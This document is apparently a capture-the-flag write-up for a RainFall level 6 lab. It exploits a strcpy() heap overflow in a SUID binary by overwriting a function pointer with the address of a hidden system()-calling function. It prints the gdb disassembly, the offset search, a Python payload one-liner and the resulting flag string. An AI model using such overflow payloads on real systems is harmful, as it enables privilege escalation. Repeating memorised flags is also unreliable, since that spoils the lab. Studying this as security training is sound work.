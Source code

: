 # Level 6

## Vulnerability

strcpy() buffer overflow

## Context

We find a binary with owner level7 and SUID.
```
level6@RainFall:~$ ls -l
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```
It segfaults when run without arguments. It replies to random arguments with "Nope".
```
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 Would you like to be my friend?
Nope
```

## Solution

Investigating with gdb, we find the main calls function ```m``` which writes "Nope".
```
level6@RainFall:~$ gdb -q level6
...
(gdb) disas main
...
   0x080484a5 <+41>:	mov    $0x8048468,%edx        ; load address of function m
...
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> ; strcpy() argv[1] to 64 byte buffer
...
   0x080484d0 <+84>:	call   *%eax                  ; call function m
...
(gdb) disas m
...
   0x08048475 <+13>:	call   0x8048360 <puts@plt>   ; write "Nope"
```
But we also find a similar uncalled function ```n``` which calls ```system()```.
```
(gdb) info functions
...
0x08048454  n
...
(gdb) disas n
...
   0x08048461 <+13>:	call   0x8048370 <system@plt>
```
strcpy() copies argv[1] to a 64 byte buffer on the heap.
Let's try to overflow this buffer and overwrite ```eip``` with the address of ```n```.
First, using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 72.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
...
0x41346341 in ?? ()
```
So we build our exploit string:
1. 72 bytes padding
2. address of ```n``` (4 bytes) - "\x54\x84\x04\x08"

Then give the exploit string as argument to the binary
```
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Recreate Exploited Binary

As user level7, in /tmp, create and compile level6_source.c.
```
level7@RainFall:/tmp$ gcc level6_source.c -o level6_source
```
Edit permissions including suid, then move the binary to home directory.
```
level7@RainFall:/tmp$ chmod u+s level6_source; chmod +wx ~; mv level6_source ~
```
Exit back to user level6, then run the source with an updated address of function ```n``` (found with gdb).
```
level7@RainFall:/tmp$ exit
exit
level6@RainFall:~$ /home/user/level7/level6_source $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```
